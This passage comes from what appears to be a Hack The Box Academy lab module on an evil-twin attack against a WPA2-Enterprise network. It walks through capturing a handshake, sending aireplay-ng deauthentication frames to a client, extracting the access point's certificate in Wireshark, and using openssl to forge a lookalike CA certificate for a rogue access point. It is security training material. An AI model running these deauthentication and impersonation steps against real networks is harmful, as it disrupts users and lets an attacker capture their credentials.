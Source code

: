  CH  1 ][ Elapsed: 36 s ][ 2024-08-23 10:19 ]

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 9C:9A:03:39:BD:7A  -28 100      372       77    0   1   54   WPA2 CCMP   MGT  HTB-Wireless                                                                                   

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 9C:9A:03:39:BD:7A  9A:B7:A6:32:F3:D6  -29    9 -48      0       95  PMKID  HTB-Wireless    
</code></pre>
<pre><code class="language-shell-session">[!bash!]$ aireplay-ng -0 1  -a 9C:9A:03:39:BD:7A -c 9A:B7:A6:32:F3:D6 wlan0mon

19:41:12  Waiting for beacon frame (BSSID: 9C:9A:03:39:BD:7A) on channel 1
19:41:12  Sending 64 directed DeAuth (code 7). STMAC: [9A:B7:A6:32:F3:D6] [ 0| 0 ACKs]
19:41:12  Sending 64 directed DeAuth (code 7). STMAC: [9A:B7:A6:32:F3:D6] [ 0| 0 ACKs]
19:41:12  Sending 64 directed DeAuth (code 7). STMAC: [9A:B7:A6:32:F3:D6] [ 0| 0 ACKs]
</code></pre>
<p>Once we have captured the WPA handshake, we can use the <code>WPA-01.cap</code> file to extract important details such as the username, domain name, and handshake certificate from the captured data. To obtain the handshake certificate using <code>Wireshark</code>, we can apply the filter <code>(wlan.sa == 9c:9a:03:39:bd:7a) &amp;&amp; (tls.handshake.certificate)</code>. This filter focuses on the AP's BSSID to isolate the relevant packet containing the certificate. The extracted certificate can provide valuable information about the access point as shown in the below screenshot.</p>
<p><img alt="handshake" src="https://academy.hackthebox.com/storage/modules/291/handshake.png"/></p>
<hr/>
<h3>2. Generate Certificates</h3>
<p>Next, we generate certificates that closely mimic the details of the target’s certificate. This similarity increases the chances of clients trusting and connecting to the rogue access point. The first step is to generate our Diffie-Hellman parameters. This can be done using the following command:</p>
<pre><code class="language-shell-session">[!bash!]$ openssl dhparam -out dh.pem 2048

Generating DH parameters, 2048 bit long safe prime
..........................................................................................................................................................................................................................................................................................+......................................................................++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*++*
</code></pre>
<p>Next, we need to generate our Certificate Authority (CA) key. This can be accomplished with the following command:</p>
<pre><code class="language-shell-session">[!bash!]$ openssl genrsa -out ca-key.pem 2048
</code></pre>
<p>We also need to generate the x509 certificate to create our final ca.pem file. We'll aim to closely match the details of the legitimate access point, to minimize suspicion from connected clients and prevent them from realizing it's a fake AP.</p>
<pre><code class="language-shell-session">[!bash!]$ openssl req -new -x509 -nodes -days 100 -key ca-key.pem -out ca.pem

You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:California
Locality Name (eg, city) []:San Fransisco
Organization Name (eg, company) [Internet Widgits Pty Ltd]:Hack The Box
Organizational Unit Name (eg, section) []:HTB
Common Name (e.g. server FQDN or YOUR name) []:HTB
Email Address []:<a class="__cf_email__" data-cfemail="89e8ede4e0e7c9e1fdeba7eae6e4" href="/cdn-cgi/l/email-protection">[email protected]</a>
